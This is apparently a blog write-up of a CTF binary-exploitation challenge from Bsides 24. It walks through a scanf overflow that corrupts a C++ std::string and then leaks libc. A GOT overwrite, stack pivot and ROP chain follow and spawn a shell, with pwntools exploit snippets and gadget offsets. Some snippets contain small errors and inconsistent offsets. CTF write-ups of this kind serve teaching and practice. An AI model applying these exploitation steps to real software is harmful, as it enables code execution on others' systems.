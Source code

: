 ```yaml
---
layout: post
title: Cybears CTF | Plus Writeup
author: adamt
---
```


My writeup of the first Pwn challenge for Bsides 24 CTF.

## Challenge Description

Straight away, running the binary we get told this is a C++ challenge involving the different string types (char* vs std::string).

I'm pretty bad at reversing C++, but from what i can tell:
1. In the main function, a std::string object on the stack is initialized to "std::string".
2. The binary calls into a function `vuln` and passes this object as an argument.
3. Within `vuln()`, a C string is initialized on the stack, and `c-string` is strcpy'ed into it.
4. The program then allows a user to enter an arbitrary number of characters into this string via `scanf`. This is the main vulnerability in this challenge.
5. The program then prints out "Please enter a ", followed by the argument string containing "std::string"
  * I have a feeling this will be a leak of some sort, why would they write it this way??
5. After this, the user is prompted for a non-overflowable input via std::cin into the passed-in std::string object.

Protections wise, the binary has No PIE enabled, which should make things a bit easier.

## Thoughts

Ok so we know the vulnerability is probably an overflow in the `scanf` call into our C string.

The first thing I notice when trying to fuzz input into the binary is around 112 characters.

```
$ pwn cyclic 111 | ./plus
Please enter a C string:
Please enter a std::string:
Your strings are:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaa

$ pwn cyclic 112 | ./plus
Please enter a C string:
Please enter a /7��
                   :
Your strings are:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab
```

Notice the "std::string" has been replaced with random bytes! It's pretty obvious we are somehow overwriting the std::string object initialized within the main function.

Doing a bit of research into how a std::string is represented on the stack, I learn that depending on the size of the string, the contents may be either locally allocated on the stack or the heap. Regardless, the overall layout of a std::string is

```
+-----------------+
| Pointer         |  // Pointer to character data
+-----------------+
| Size            |  // e.g., 5 for "Hello"
+-----------------+
| Capacity        |  // e.g., 15 (or more)
+-----------------+
```

So if my understanding is correct, we are likely overwriting the pointer slightly (with a NULL byte) when sending exactly 100 bytes. This will give for a pretty simply read and write primitive.

### Read Primitive

Given we can overwrite the pointer and size of a std::string object, and this same object is printed to the user, we can use this to leak any value in memory. I will use this primitive to defeat ASLR and find an address in LIBC.

This little concept script will do this for us.

```
p = process("./plus")
payload = fit({112: p.elf.got['__isoc99_scanf'], 120: p64(0x8)})
p.sendlineafter(b'string', (payload)
p.recvuntil(b'enter a ')
leak = u64(p.recvuntil(b':', drop=True)
log.info("Leaked 0x%x", hex(leak))
```

Trying it out, and we successfully leak what looks like a LIBC address

```
$ python3 script.py
...
[*] leaked 0x74793965fe00
```

The challenge provided a libc that we can then use to pivot to any other libc addresses.

### Write Primitive

We can take advantage of the fact that the program reads into the same std::string object. We can't make it point somewhere new, but since it already points into LIBC, we can now overwrite a GOT address to anything, allowing us to control code execution.

The program calls `exit` at the end, exit appears directly after scanf in the GOT, so by leaking scanf, we can trivially overwrite exit after 8 bytes in the second payload.

## Turning this write primitive into a shell

My first attempt here was to use a `one_gadget` as we only control one gadget. This didn't work because
* The stack is not alligned to 16 bytes and I only have one gadget to control
* The one gadgets in the target LIBC have a lot of preconditions that I probably won't be able to set.

After this failed, my only option is to stack-pivot into a full ROP chain, and call system or execve. I decided to call execve because I hate myself.

Calling execve requires setting a minimum of 3 registers
* RDI -> /bin/sh
* RSI and RDX 0

Our current payload is not on the stack though, and finding a stack-pivot gadget to pivot to the GOT might be non-trivial. **But wait, our previous input into the program is on the stack!**

We can re-use the initial payload to insert of rop-chain into the stack, and then in our second payload, we can force a stack pivot down to where our first buffer begins. Some debugging in GDB shows this is 24 bytes into the stack, our stack-pivot needs to only pop 3 things of the stack.

I quickly find a `pop r13; pop r14; pop r15; ret` gadget, which redirects RSP to point to the beginning of our initial payload.

At this point our payload will look like.


```
payload1 = fit({
    0: rop_chain,
    # Overwrite Pointer of std::string to GOT
    112: elf.got['__isoc99_scanf'],
    # Overwrite size of std::string to 8
    120: p64(0x8),
})

triplepopgadget = p64(libc.address+0x000000000002a3e5)
# Overwrite exit GOT to `pop;pop;pop;ret` stack pivot.
payload2 = cyclic(8) + triplepopgadget
```

### Building a ROP Chain

One issue with this approach so far is our initial payload needs to contain the ROP chain, but it happens before we get a LIBC leak. The binary won't have good gadgets for us, we need to use LIBC gadgets.

We will take advantage of the way the PLT/GOT works to solve this. In our initial payload, we can put PLT function calls as our gadgets, which we can then force-overwrite when controlling the GOT in our second payload. With this our payload becomes

```
# 0x402350 is the PLT of the first GOT address we control, and so on.
payload1 = fit({
    # We will replace this with a pop RDI gadget.
    0: p64(0x402350), 
    # The GOT for scanf will point to /bin/sh in our second payload.
    8: elf.got['__isoc99_scanf'], # pop /bin/sh into RDI

    # We will replace this with a pop RDX gadget.
    16: p64(0x402350+16), # Second ROP gadget, the next PLT call
    24: p64(0), # pop zero into rdx

    32: p64(0x402350+32), # Will replace with address of execve 

    # Overwrite Pointer of std::string to GOT
    112: elf.got['__isoc99_scanf'],
    # Overwrite size of std::string to 8
    120: p64(0x8),
})

# pop;pop;pop;ret
triplepopgadget = p64(libc.address+0x000000000002a3e0)
# pop rdi; ret;
poprdi = p64(libc.address+0x000000000002a3e5)
# pop rdx; ret 6;
poprdx = p64(libc.address+0x0000000000170337) 

# Overwrite exit GOT to `pop;pop;pop;ret` stack pivot.
payload2 = fit({
    # Overwrite scanf GOT with /bin/sh.
    0: b'/bin/sh\x00',

    # Overwrite exit GOT with stack pivot
    8: triplepopgadget,

    # Overwrite subsequent GOT after exit to our gadgets.
    16: poprdi,
    24: poprdx,
    32: libc.symbols['execve'],
})
```

And we get out shell
